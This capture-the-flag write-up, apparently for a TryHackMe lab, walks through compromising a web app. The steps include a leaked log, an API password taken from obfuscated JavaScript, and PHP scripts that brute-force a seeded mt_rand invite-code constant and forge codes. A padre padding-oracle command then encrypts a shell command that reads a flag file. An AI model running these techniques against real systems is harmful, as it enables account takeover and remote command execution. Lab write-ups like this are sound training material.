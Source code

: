 # Decryptify

### Decryptify
Nmap scan shows ports 22 and 1337 open. 1337 has an apache webserver. <br />
Enumerating the website with tools like gobuster etc... I found a log file at `/logs/app.log`:<br />
![image](https://github.com/user-attachments/assets/a8802c33-c969-4088-87b9-c6b39275b3ee)<br />
So I know that there's a new valid user created: `hello@fake.thm`. Furthermore, I found a file called `api.js`:<br />
![image](https://github.com/user-attachments/assets/458543b9-8c25-4e57-8f58-a4a8103df48d)<br />
This code is obfuscated, but it shows in clear text some elements of an array "k". My guess is that this file `api.js` is responsible to handle the access to the api documentation. So I try to use all those elements as passwords for the API documentation page: <br />
![image](https://github.com/user-attachments/assets/4c6cef38-d26c-4304-8a4a-2a00c8942af1)<br />
Finally, the correct password is `H7gY2tJ9wQzD4rS1`. This gives me access to the source code used to create the invite code to access the dashboard: <br />
![image](https://github.com/user-attachments/assets/4ed39ded-88f1-4228-9287-8ea0a33871ee)<br />
So the code is built using the email and a constant value. But I don't know this constant value, however there's a way to find it. <br />
Since I know both the invite code for `alpha@fake.thm` and it's invite code, taken from the logs, I can create a script that tries to find out the constant value that is being used. <br />
To do that I used the following script which will iterate over 1000000 possible constant values, and creates the invite code for `alpha@fake.thm`, and stops until it builds it's real invite_code. That's when the constant value is found. 

    <?php
    function calculate_seed_value($email, $constant_value) {
        $email_length = strlen($email);
        $email_hex = hexdec(substr($email, 0, 8));
        $seed_value = hexdec($email_length + $constant_value + $email_hex);
        return $seed_value;
    }
    
    function reverse_constant_value($email, $invite_code) {
        // Step 1: Decode Base64 invite code
        $random_value = intval(base64_decode($invite_code));
    
        // Step 2: Get email components
        $email_length = strlen($email);
        $email_hex = hexdec(substr($email, 0, 8));
    
        // Step 3: Iterate over possible constant values
        for ($constant_value = 0; $constant_value <= 1000000; $constant_value++) {
            $seed_value = hexdec($email_length + $constant_value + $email_hex);
    
            mt_srand($seed_value);
            if (mt_rand() === $random_value) {
                return $constant_value;
            }
        }
        return "Constant value not found in range.";
    }
    
    // Given data
    $email = "alpha@fake.thm";
    $invite_code = "MTM0ODMzNzEyMg=="; // Base64 encoded value
    
    // Reverse the constant value
    $constant_value = reverse_constant_value($email, $invite_code);
    
    echo "Reversed Constant Value: " . $constant_value . PHP_EOL;
![image](https://github.com/user-attachments/assets/f37109d7-b733-4b75-bd44-8a8eca97c3b0)<br />
Next, I use the following php code to retrieve the invite_code for `hello@fake.thm`:<br />

    <?php
    
    function calculate_seed_value($email, $constant_value) {
        $email_length = strlen($email);
        $email_hex = hexdec(substr($email, 0, 8));
        $seed_value = hexdec($email_length + $constant_value + $email_hex);
    
        return $seed_value;
    }
    
    function generate_token($email, $constant_value) {
         $seed_value = calculate_seed_value($email, $constant_value);
         mt_srand($seed_value);
         $random = mt_rand();
         $invite_code = base64_encode($random);
    
        return $invite_code;
    }
    
    
    $email = "hello@fake.thm";
    $token = generate_token($email, 99999);
    print $token
    
    ?>

The panel shows the presence of another admin user: <br />
![image](https://github.com/user-attachments/assets/eaa7a493-9ba2-4ee5-a3f4-5f7a57c58eec)<br />
Also, in the footer of the page there's a hidden form: <br />
![image](https://github.com/user-attachments/assets/e1fb1d01-0c02-4af5-b568-74c0514fcc55)<br />
This means that there's also a hidden parameter that we can reference with `?date=...`. If I use a random value I get a padding error: <br />
![image](https://github.com/user-attachments/assets/78d150af-6306-41f1-a507-4e158de1a15a)<br />
This is a potential padding oracle attack. To perform a padding oracle attack I use the tool [padre](https://github.com/glebarez/padre). A padding oracle attack can be performed when the server respondes with "padding" errors if we prompt a wrong encrypted value. <br />
Basically the attack changes the bytes of the payload repeatedly in order to decrypt a message or to build a valid encrypted string without knowing the key. I haven't really understood it better than this. First, I can decrypt the original string: <br />
`./padre-linux-amd64 -u 'http://10.10.246.122:1337/dashboard.php?date=$' -cookie 'PHPSESSID=4s0a4pt61j82g0663vns5vk878' "wFD/RsmaFDx7LAERAB3+LY3n/4Evq3GjI/ZtVIMi2rc="`:<br />
![image](https://github.com/user-attachments/assets/58c09c79-38f4-4379-a63d-90344f6db21f)<br />
It's running the command `date`. I can now use padre to encrypt `cat /home/ubuntu/flag.txt`: <br />
![image](https://github.com/user-attachments/assets/fb289b99-0eb4-4e38-b91f-901542d47127)<br />
So I visit `http://10.10.246.122:1337/dashboard.php?date=8ToOYHlh0PuGepheR0TEN66XK6YqUx4yZQWGJFft495lbmJyaWVhcw==`, this gets me the second flag. 


